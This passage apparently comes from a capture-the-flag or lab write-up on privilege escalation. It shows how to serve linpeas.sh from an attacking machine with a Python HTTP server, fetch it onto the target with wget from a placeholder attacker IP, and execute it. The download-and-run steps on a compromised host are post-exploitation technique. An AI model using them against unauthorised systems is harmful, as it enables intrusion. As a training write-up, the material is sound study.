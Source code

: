 > To escalate priviliges, i found the cronjob by luck.
> The correct technique would have been to run an automated tool such as linpeas.

> To do that, download the linpeas.sh script on the attacking machine and start a python server.

``` shell
python3 -m http.server 80
```

> Then on the target machine, use `wget` to download it.

``` shell
wget http://<my-machine-ip>:80/linpeas.sh
```

> Once it downloads, set it to be executable.

``` shell
chmod +x linpeas.sh
```

> Finally, run it and complete the task.

``` shell
./linpeas.sh
```

---
